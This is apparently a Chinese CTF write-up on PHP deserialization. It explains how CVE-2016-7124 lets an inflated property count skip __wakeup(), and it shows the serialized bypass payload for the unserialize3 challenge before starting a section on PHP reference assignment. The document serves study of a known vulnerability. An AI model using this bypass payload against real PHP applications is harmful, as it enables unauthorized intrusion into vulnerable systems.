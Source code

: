 影响范围：

- PHP5 < 5.6.25
- PHP7 < 7.0.10

正常来说在反序列化过程中，会先调用wakeup()方法再进行unserilize()，但如果序列化字符串中表示对象属性个数的值大于真实的属性个数时，wakeup()的执行会被跳过。

比如攻防世界·unserialize3：

![](https://fushuling-1309926051.cos.ap-shanghai.myqcloud.com/2023/03/image.png)

可以看到源码里有__wakeup()，它会在我们反序列化之前就exit()，终止我们反序列化的进程

如果我们的payload是：

```
<?php
class xctf{
public $flag = '111';
public function __wakeup(){
 
}
}
$a = new xctf();
print(serialize($a));
#O:4:"xctf":1:{s:4:"flag";s:3:"111";} 
?> 
```

![](https://fushuling-1309926051.cos.ap-shanghai.myqcloud.com/2023/03/image-1.png)

毫无疑问的被exit(‘bad requets’)终止了。

但这个题的考点就是cve-2016-7124，所以我们可以利用cve-2016-7124进行绕过，将payload里ctf后面那个1改为2就行了，因为真实的属性其实只有一个，那就是那个flag，改为2之后对象属性个数的值就大于真实的属性个数了，因此可以绕过wakeup()，现在的payload是：

```
O:4:"xctf":2:{s:4:"flag";s:3:"111";}
```

![](https://fushuling-1309926051.cos.ap-shanghai.myqcloud.com/2023/03/image-2.png)

成功得到flag，不过符合这种要求的php版本都比较老了，感觉实战中很难出现。

引用

# php引用赋值&

在php里，我们可使用引用的方式让两个变量同时指向同一个内存地址，这样对其中一个变量操作时，另一个变量的值也会随之改变。

比如：

```
<?php
function test (&$a){
    $x=&$a;
    $x='123';
}
$a='11';
test($a);
echo $a;
```
